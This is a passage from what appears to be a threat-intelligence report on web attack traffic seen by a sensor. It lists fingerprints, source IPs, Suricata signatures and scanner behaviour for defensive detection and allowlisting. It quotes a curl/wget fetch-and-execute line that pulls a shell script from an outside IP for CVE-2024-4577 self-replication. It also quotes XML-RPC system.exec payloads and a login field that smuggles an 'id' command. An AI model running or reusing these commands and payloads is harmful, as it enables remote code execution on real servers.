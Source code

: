     ```
    X=$(curl http://66.63.187.193/sh || wget http://66.63.187.193/sh -O-); echo "$X" | sh -s cve_2024_4577.selfrep
    ```
  * Example body SHA-256 (deny events):

    * `25479e20ea8dcfd0d3d60f11cd62cf285dde59d102093a59281363b24e3d1a3a` (bin/sh fetch+exec)
    * `502b3fe470abee38ccba718786cdc140f009466641331eca5de77b0802866e2d` (PHP-CGI arg-injection with base64 payload)
* **Suricata signatures observed:**

  * `ET WEB_SERVER /bin/sh In URI Possible Shell Command Execution Attempt (2011465)`
  * `ET WEB_SERVER WebShell Generic - wget http - POST (2016683)`
  * `ET WEB_SERVER PHP tags in HTTP POST (2011768)`
  * `ET WEB_SERVER Generic PHP Remote File Include (2019957)`
  * `ET WEB_SERVER ThinkPHP RCE Exploitation Attempt (2026731)`
  * `ET WEB_SERVER Possible SQL Injection (exec) in HTTP Request Body (2053461)`

**B) `/WebInterface/*` RCE attempt (spoofed UAs, stable TLS)**

* **Source IP:** `67.217.228.220` (2025-08-01 23:10:30 → 23:10:44 UTC)
* **JA3:** `9b72665518dedb3531426284fdec8237`
* **JA4:** `t13i250900_b78ed14e2fd0_e7c285222651`
* **User-Agents observed (spoofed):** Safari 16.6 on macOS, Firefox on Fedora, Edge/18 on Windows
* **Paths & payloads:**

  * `POST /WebInterface/function/` with XML-RPC `methodCall system.exec` (body SHA-256 `a4754b0f...`)
  * `POST /WebInterface/function/` with XML-RPC `methodCall file.write pwned.txt NUCLEI_HACKED` (body SHA-256 `8b7d9f...`)
  * `POST /WebInterface/json/` with `{"method":"system.exec","params":["id"]}` (body SHA-256 `36c2a4a7...`)
  * `POST /WebInterface/login/` with body `username=admin';id;#&password=anything` (body SHA-256 `1d711995...`)
* **Indicator pattern:** consistent TLS fingerprints vs rotating UA strings → automation with UA spoofing.

**C) `/.env` exposure scanner (clustered)**

* **Path:** `/.env` (59 hits)
* **Dominant JA3:** `80de6e81f4d77bb5d16114d4ebfe5e30`
* **Dominant JA4:** `t13i3713h1_91ec122131b4_97a66a8f4cb1`
* **User-Agent:** `Mozilla/5.0 … Chrome/116.0.5845.140 Safari/537.36`
* **Pattern:** many rotating IPs sharing the same JA3/JA4+UA → distributed scanner kit.

**D) `/.git/config` scanner**

* **Path:** `/.git/config` (11 hits)
* **Source IPs:** `196.251.81.194` (4), `146.70.116.179` (2), `146.70.116.115` (2), `196.251.114.43` (1), `134.209.70.130` (1), `170.64.207.0` (1)
* **UAs:** `Mozilla/5.0 (compatible; Scanner/1.0)` and misc.
* **JA3s observed:** `19e29534fd49dd27d09234e639c4057e`; `ea4a9ae049cfc614efbb3c244abb3fc7`; `f80d3d09f61892c5846c854dd84ac403`

**E) Benign scanners (for awareness/allowlisting)**

* **GenomeCrawlerd:** UA `'Mozilla/5.0 (compatible; GenomeCrawlerd/1.0; +https://www.nokia.com/genomecrawler)'`, JA3 `efc81b7b978aafca58d30faeeaf28f9a`; enumerates login pages.
* **CensysInspect:** UA `Mozilla/5.0 (compatible; CensysInspect/1.1; +https://about.censys.io/)` with JA3s `d6828e30ab66774a91a96ae93be4ae4c`, `35fa0a83e466acbec1cfbb9016d550ab`.
* **zgrab/0.x:** multiple IPs, common surface scans.
